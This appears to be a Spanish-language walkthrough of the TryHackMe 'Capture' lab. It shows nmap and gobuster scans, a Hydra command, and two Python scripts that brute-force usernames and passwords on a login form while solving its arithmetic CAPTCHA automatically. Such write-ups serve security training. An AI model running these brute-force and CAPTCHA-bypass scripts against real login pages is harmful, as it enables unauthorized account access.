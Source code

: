 ```yaml
---
title: "Capture"
description: "Capture"
pubDate: 2025-05-20
---
```


https://tryhackme.com/r/room/capture

# Fase de reconocimiento

## Buscamos puertos abiertos

````
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.139.144
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240430193835.png)

## Gobuster

````
gobuster dir -u http://10.10.139.144 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240430214946.png)

# Fase de ataque

## Hydra

Intentamos con Hydra al formulario pero no da resultado debido a que tras un numero de intentos se activa un CAPTCHA

````
hydra -L usernames.txt -P passwords.txt "http-post-form://10.10.139.144/login:username=^USER^&password=^PASS^:Error"
````

## Script fuerza bruta

Primero buscamos el usuario

````python
import requests
import re

url = "http://10.10.64.26/login"
usuarios_file = "usernames.txt"
contrasenas_file = "passwords.txt"

with open(contrasenas_file, 'r') as contrasenas:
    lista_contrasenas = [contrasena.strip() for contrasena in contrasenas.readlines()]

with open(usuarios_file, 'r') as usuarios:
    for contrasena in lista_contrasenas:
        for usuario in usuarios:
            usuario = usuario.strip()
            data = {"username": usuario, "password": contrasena}
            respuesta = requests.post(url, data=data)
            web = respuesta.content.decode('utf-8')

            if "Invalid captcha" in web:
                numeros = re.findall(r'(\d+)\s*([-+])\s*(\d+)', web)
                if numeros:
                    num1, operador, num2 = numeros[0]
                    if operador == '+':
                        captcha = int(num1) + int(num2)
                    else:
                        captcha = int(num1) - int(num2)

                    data["captcha"] = captcha
                    respuestac = requests.post(url, data=data)
                    webc = respuestac.content.decode('utf-8')

                    if "Invalid captcha" not in webc:
                        print("Usuario:", usuario, ", Contrasena:", contrasena)

                        if "does not exist" not in webc:
                            print("Usuario encontrado:", usuario, "!")
                            if "Invalid password" not in webc:
                                print("Contrasena valida para", usuario, ":", contrasena)
                                exit()

            else:
                if "does not exist" not in web:
                    print("Usuario encontrado:", usuario, "!")
                    if "Invalid password" not in web:
                        print("Contrasena valida para", usuario, ":", contrasena)
                        exit()
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240430225706.png)
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240430225750.png)
Ahora buscamos la contraseña

````python
import requests

import re

  

url = "http://10.10.64.26/login"

contrasenas_file = "passwords.txt"

  

with open(contrasenas_file, 'r') as contrasenas:

    lista_contrasenas = [contrasena.strip() for contrasena in contrasenas.readlines()]

    for contrasena in lista_contrasenas:

        data = {"username": "natalie", "password": contrasena}

        respuesta = requests.post(url, data=data)

        web = respuesta.content.decode('utf-8')

  

        if "Invalid captcha" in web:

            numeros = re.findall(r'(\d+)\s*([-+])\s*(\d+)', web)

            if numeros:

                num1, operador, num2 = numeros[0]

                if operador == '+':

                    captcha = int(num1) + int(num2)

                else:

                    captcha = int(num1) - int(num2)

  

                data["captcha"] = captcha

                respuestac = requests.post(url, data=data)

                webc = respuestac.content.decode('utf-8')

  

                if "Invalid captcha" not in webc:

                    print("Usuario:", "natalie", "Contrasena:", contrasena)

                    if "does not exist" not in webc:

                        if "Invalid password" not in webc:

                            print("Contrasena valida para", "natalie", ":", contrasena)

                            exit()

        else:

            if "does not exist" not in web:

                if "Invalid password" not in web:

                    print("Contrasena valida para", "natalie", ":", contrasena)

                    exit()
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240430230655.png)
\[-\] ==pwned!==
